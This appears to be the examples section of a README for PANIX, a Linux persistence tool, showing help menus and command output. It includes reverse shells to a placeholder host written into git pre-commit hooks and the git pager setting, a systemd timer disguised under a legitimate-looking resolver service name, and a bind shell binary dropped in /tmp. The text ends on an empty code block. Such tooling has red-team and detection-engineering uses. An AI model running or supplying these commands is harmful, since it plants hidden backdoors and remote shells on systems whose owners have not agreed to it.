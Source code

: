 ![](https://i.imgur.com/waxVImv.png)

# Examples
The script should be largely self-explanatory, however, this section will show a few examples of how to work with PANIX.

## Help Menu
Every persistence mechanism has a separate help menu:

```
ruben@ubuntu2204:~$ sudo ./panix.sh --udev --help
Usage: ./panix.sh --udev [OPTIONS]
--examples                              Display command examples
-default                               Use default udev settings
  --ip <ip>                               Specify IP address
  --port <port>                           Specify port number
  --sedexp | --at | --cron | --systemd    Specify the mechanism to use
--custom                                Use custom udev settings
  --command <command>                     Specify custom command
  --path <path>                           Specify custom path
--help|-h                               Show this help message
```

Every persistence mechanism also has an `--examples` flag that shows default and custom examples, aiding in crafting the command that works for you.

```
ruben@ubuntu2204:~$ ./panix.sh --git --examples
Examples:
--default:
./panix.sh --git --default --ip 10.10.10.10 --port 1337 --hook|--pager

--custom:
./panix.sh --git --custom --command "(nohup setsid /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > /dev/null 2>&1 &) &" --path "gitdir/.git/hooks/pre-commit" --hook

./panix.sh --git --custom --command "nohup setsid /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > /dev/null 2>&1 & ${PAGER:-less}" --path "~/.gitconfig --pager"
```

## Execution
Most of the persistence mechanisms are very simple, and will (hopefully) not require much explanation. For example, systemd persistence can be set up simply through executing:

```
ruben@ubuntu2204:~$ sudo ./panix.sh --systemd --default --ip 10.10.10.10 --port 1337
Service file created successfully!
Timer file created successfully!
Created symlink /etc/systemd/system/timers.target.wants/dbus-org.freedesktop.resolved.timer → /usr/local/lib/systemd/system/dbus-org.freedesktop.resolved.timer.
[+] Systemd service persistence established!
```
When setting up a persistence mechanism, the script will let you know whether it worked, and in cases where information is needed to work with the persistence mechanism, additional information is provided. For example the bind shell mechanism:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --bind-shell --default --architecture x64
[+] Bind shell binary /tmp/bd64 created and executed in the background.
[+] The bind shell is listening on port 9001.
[+] To interact with it from a different system, use: nc -nv <IP> 9001
[+] Bind shell persistence established!
```
Allowing you to interact with the bind shell:
```
```